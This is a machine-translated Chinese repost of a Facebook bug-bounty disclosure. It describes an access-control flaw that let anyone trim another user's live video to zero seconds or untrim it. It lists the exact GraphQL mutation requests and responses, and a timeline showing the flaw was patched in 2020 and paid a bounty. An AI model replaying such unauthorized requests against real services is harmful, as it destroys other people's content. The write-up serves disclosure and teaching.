

# (POC)删除任何脸书的直播视频(14000 美元奖金)

> 原文：<https://infosecwriteups.com/poc-remove-any-facebooks-live-video-14-000-bounty-70c8135b7b4c?source=collection_archive---------1----------------------->

# 描述/影响

有一个功能(视频修剪)允许脸书用户从他们的直播视频中删除不必要的内容。只有业主可以代表他们做这个，但根据我的测试，我观察到，有可能代表业主修剪任何现场视频，这不是预期的行为

**影响**

任何人都可以剪辑脸书的任何直播视频。将视频修剪为 5 毫秒将导致视频长度为 0 秒，所有者将无法取消修剪。

# 概念证明/重新步骤

1.获取目标现场视频 ID
2。获取当前用户 ID
3。复制请求

POST
[/api/graphql/？_ _ a = 1&doc _ id = 3975916122480615&变量](https://www.facebook.com/api/graphql/?__a=1&doc_id=3975916122480615&fb_api_req_friendly_name=LiveProducerLiveVideoTrimMutation&server_timestamps=true&variables){ " input ":{ " end _ time _ ms ":12000，" start_time_ms":0，" video _ id ":" valuefromtepone "，" actor _ id ":" valuefromteptwo "，" client_mutation_id":"1"}}

4.用您希望视频结束的毫秒时间更新字段
end _ time _ MS(1 秒= 1000 MS，其中 10000 MS = 10 秒)，如果视频持续时间为 5 分钟，结果将使视频持续时间仅为 10 秒。

5.提交请求

反应

{
【错误】:
{
…
【代码】:1675030，
…
}

响应返回了一个错误#1675030，但是已经完成了。

*   再次更新字段(end_time_ms)以删除视频内容
    end_time_ms:1
    这将删除视频内容(所有者无法恢复原始视频)

原始视频持续时间变成 0 秒长

假设主人已经修剪了他们的现场视频。

通过(攻击者)取消视频剪辑

-提交请求

POST
[/api/graphql/？_ _ a = 1&doc _ id = 3989508527791126&变量](https://www.facebook.com/api/graphql/?__a=1&doc_id=3989508527791126&fb_api_req_friendly_name=LiveProducerLiveVideoUntrimMutation&server_timestamps=true&variables){ " input ":{ " video _ id ":" valuefromtepone "，" actor _ id ":" valuefromteptwo "，" client_mutation_id":"25"}}

反应

{
【错误】:
{
…
【代码】:1675030，
…
}

响应返回了一个错误#1675030，但是已经完成了(这将导致隐私问题！)

**影响**

任何人都可以修剪/取消修剪脸书上的任何直播视频。将视频修剪为 5 毫秒将导致视频长度为 0 秒，所有者将无法取消修剪。

# 时间表

2020 年 9 月 25 日:报告已发送

2 小时后由脸书审判

2020 年 9 月 28 日:脸书确认补丁

2020 年 10 月 10 日: **$11，000** 在 BountyCon 2020 期间颁发的奖金(带奖金)

2020 年 12 月 10 日:脸书追加 **$1150** 赏金(带奖金)

2020 年 12 月 10 日:脸书追加**2300 美元**赏金(带奖金)